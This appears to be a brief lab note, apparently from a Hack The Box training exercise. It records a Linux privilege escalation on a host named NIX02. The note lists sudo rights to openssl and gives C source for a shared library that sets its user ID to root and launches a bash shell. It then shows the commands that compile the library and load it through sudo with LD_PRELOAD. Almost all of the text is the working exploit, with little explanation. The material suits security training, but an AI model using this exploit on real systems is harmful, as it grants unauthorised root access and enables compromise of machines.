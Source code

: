# IP 
> 10.129.2.210

# CMD Use :
> sudo -l
    User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl

> nano root.c
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }

> gcc -fPIC -shared -o root.so root.c -nostartfiles

> sudo LD_PRELOAD=/tmp/root.so /usr/sbin/openssl